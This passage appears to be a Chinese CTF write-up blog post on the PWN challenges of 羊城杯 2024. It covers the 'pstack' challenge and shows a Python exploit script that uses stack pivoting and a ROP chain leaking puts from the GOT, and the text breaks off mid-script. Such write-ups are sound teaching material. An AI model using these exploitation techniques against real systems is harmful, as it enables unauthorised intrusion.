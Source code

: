 ```yaml
---
id: ycb-2024
aliases: []
tags:
  - WriteUp
  - PWN
date: 2024-09-10 09:35
title: WriteUp - 羊城杯 2024 - PWN 部分所有题目
---
```


> [!info]
> 马上要去打决赛了，「渗透 + 应急响应」赛制对我们 1 pwn 1 reverse 1 crypto（全栈）1 web 的阵容不太友好啊。
>
> 但感觉这真的是我们最强阵容了 ~~（在某迷斯克全栈✌️养老的情况下）~~ 。
>
> 龙图.jpg 可恶的渗透

羊城杯初赛竞争非常激烈，睡前看是第一，六点多起床一看差点掉出前二十了，还好最后又出了几道迷斯克猜谜题。

题目质量感觉很抽象， ~~有很烂的题（例如 misc 所有题目和 httpd 之类的），~~ 但也有一些让人眼前一亮的题目，值得记录在博客中：

附件在我的 github 仓库里可以找到： [ctf-writeup-collection](https://github.com/AvavaAYA/ctf-writeup-collection/blob/main/README.md)

---

## pstack

签到题，看到栈溢出但是溢出长度很小 ~~同时还没有 PIE~~ 就可以想到栈迁移：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *

cli_script()
set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

new_stack = 0x601000 + 0x800
pop_rdi_ret = 0x0000000000400773
pop_rsi_2_ret = 0x0000000000400771

ru(b"Can you grasp this little bit of overflow?\n")
payload = flat({0x30: [new_stack, 0x4006B8]})
s(payload)

ru(b"Can you grasp this little bit of overflow?\n")
payload = flat({0x30: [new_stack + 0x40 - 8, 0x4006B8]})
s(payload)

payload = flat(
    [
        pop_rdi_ret,
        elf.got.puts,
        0x4006BF,
    ]
```